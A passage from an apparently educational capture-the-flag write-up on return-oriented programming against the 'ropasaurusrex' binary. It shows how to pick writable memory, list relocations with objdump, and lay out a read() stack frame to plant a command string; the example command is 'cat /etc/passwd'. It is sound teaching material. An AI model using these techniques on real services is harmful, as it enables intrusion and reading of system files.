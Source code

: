 Uh oh, .data is only 8 bytes long. That's not enough! In theory, any address that's long enough, writable, and not used will be enough for what we need. Looking at the output for <tt>objdump -x</tt>, I see a section called .dynamic that seems to fit the bill:

<pre>
<span class="lnr">1 </span>
<span class="lnr">2 </span> <span class="Constant">20</span> .dynamic      000000d0  <span class="Constant">08049530</span>  <span class="Constant">08049530</span>  <span class="Constant">00000530</span>  <span class="Constant">2</span>**<span class="Constant">2</span>
<span class="lnr">3 </span>                   CONTENTS, ALLOC, LOAD, DATA
</pre>

The .dynamic section holds information for dynamic linking. We don't need that for what we're going to do, so let's choose address <tt>0x08049530</tt> to overwrite.

The next step is to find a function that can write our command string to address <tt>0x08049530</tt>. The most convenient functions to use are the ones that are in the executable itself, rather than a library, since the functions in the executable won't change from system to system. Let's look at what we have:

<pre>
<span class="lnr"> 1 </span>ron@debian-x86 ~ $ objdump <span class="Special">-R</span> ropasaurusrex
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>ropasaurusrex:     <span class="Statement">file</span> format elf32-i386
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span>DYNAMIC RELOCATION RECORDS
<span class="lnr"> 6 </span>OFFSET   TYPE              VALUE
<span class="lnr"> 7 </span>08049600 R_386_GLOB_DAT    __gmon_start__
<span class="lnr"> 8 </span>08049610 R_386_JUMP_SLOT   __gmon_start__
<span class="lnr"> 9 </span>08049614 R_386_JUMP_SLOT   <span class="Statement">write</span>
<span class="lnr">10 </span>08049618 R_386_JUMP_SLOT   __libc_start_main
<span class="lnr">11 </span>0804961c R_386_JUMP_SLOT   <span class="Statement">read</span>
</pre>

So, we have <tt>read()</tt> and <tt>write()</tt> immediately available. That's helpful! The <tt>read()</tt> function will read data from the socket and write it to memory. The prototype looks like this:

<pre>
<span class="lnr">1 </span><span class="Type">ssize_t</span> read(<span class="Type">int</span> fd, <span class="Type">void</span> *buf, <span class="Type">size_t</span> count);
</pre>

This means that, when you enter the <tt>read()</tt> function, you want the stack to look like this:

<pre>
+----------------------+
|         ...          | - doesn't matter, other funcs will go here
+----------------------+

+----------------------+ &lt;-- start of read()'s stack frame
|     size_t count     | - count, strlen("cat /etc/passwd")
+----------------------+
|      void *buf       | - writable memory, 0x08049530
+----------------------+
|        int fd        | - should be 'stdin' (0)
+----------------------+
|   [return address]   | - where 'read' will return
+----------------------+
